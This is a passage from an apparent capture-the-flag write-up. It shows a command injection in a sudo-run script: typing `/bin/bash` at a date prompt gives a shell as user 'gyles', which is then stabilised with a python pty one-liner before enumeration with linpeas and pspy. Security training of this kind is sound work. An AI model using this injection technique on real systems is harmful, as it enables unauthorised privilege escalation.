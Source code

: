 The script unsafely executesÂ `$error`Â without validation:

```
$error 2>/dev/null  # Command injection here!
```

Since we run the script asÂ `gyles`Â viaÂ `sudo`, the injected command executes withÂ `gyles`â€™s privileges. Once the timestamp prompt appears, we can inject a shell.

So, in order to escalate into `gyles`, we can do the following:

```
sudo -u gyles /home/gyles/admin_checks

# Once the date input appears:

/bin/bash
```

![Pasted image 20250320160722.png](../../IMAGES/Pasted%20image%2020250320160722.png)

As we can see, we got a shell as `gyles`, we can use this to gain a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Pasted image 20250320161545.png](../../IMAGES/Pasted%20image%2020250320161545.png)

There we go, let's look around, it's a good time to use linpeas:

![Pasted image 20250320162004.png](../../IMAGES/Pasted%20image%2020250320162004.png)

We can write on a weird script, maybe we are missing something, let's use `pspy` to check on the processes:
